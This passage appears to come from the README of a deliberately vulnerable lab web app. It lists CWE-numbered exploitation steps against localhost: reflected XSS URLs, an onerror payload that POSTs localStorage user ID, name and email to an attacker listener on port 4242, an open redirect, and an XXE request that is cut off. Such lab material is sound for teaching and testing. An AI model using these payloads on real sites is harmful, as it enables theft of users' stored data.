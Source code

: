 ### CWE-79: Improper Neutralization of Input During Web Page Generation ("Cross-site Scripting", XSS) - Reflected

1. Visit one of the following URLs:
    
    * This will show a simple alert:
        ```
        http://localhost:5173/front?search=%3Cimg+src%3D%22%22+onerror%3D%22alert%28%27pwned%27%29%22%3E
        ```

    * This will send a request to the attacker's machine at port 4242:
        ```
        http://localhost:5173/front?search=%3Cimg+src%3D%22%22+onerror%3D%22fetch%28%27http%3A%2F%2Flocalhost%3A4242%27%2C%7Bmethod%3A%27POST%27%2Cbody%3A%27Some+information%27%7D%29%22%3E
        ```

### CWE-921: Storage of Sensitive Data in a Mechanism without Access Control

1. Execute any one of the previous XSS exploits using the following HTML tag:
    ```html
    <img src="" onerror="fetch('http://localhost:4242',{method:'POST',body:'User ID:'+localStorage.getItem('userID')+', Name: '+localStorage.getItem('name')+', Mail:'+localStorage.getItem('username')})">
    ```
    If the Reflected variant of XSS is used, the URL is the following:
    ```
    http://localhost:5173/back?search=%3Cimg+src%3D%22%22+onerror%3D%22fetch%28%27http%3A%2F%2Flocalhost%3A4242%27%2C%7Bmethod%3A%27POST%27%2Cbody%3A%27User+ID%3A+%27%2BlocalStorage.getItem%28%27userID%27%29%2B%27%2C+Name%3A+%27%2BlocalStorage.getItem%28%27name%27%29%2B%27%2C+Mail%3A+%27%2BlocalStorage.getItem%28%27username%27%29%7D%29%22%3E
    ```

### CWE-601: URL Redirection to Untrusted Site (’Open Redirect’)

1. In the front-office, inspect the link to a page. An example of a URL is the following:
    ```
    http://localhost:3001/api/pageclick?redirect=http%3A%2F%2Flocalhost%3A5173%2Fpages%2F1
    ```
2. Change the `redirect` parameter to any desired location, for example:
    ```
    http://localhost:3001/api/pageclick?redirect=https%3A%2F%2Fgoogle.com
    ```

### CWE-611: Improper Restriction of XML External Entity (XXE) Reference

1. [Log-in as an existing user from the API.](#logging-in-from-the-api)
2. Send the following HTTP request to the API server:
    ```http
    POST /api/pages HTTP/1.1
    Host: localhost:3001
    Content-Type: text/xml
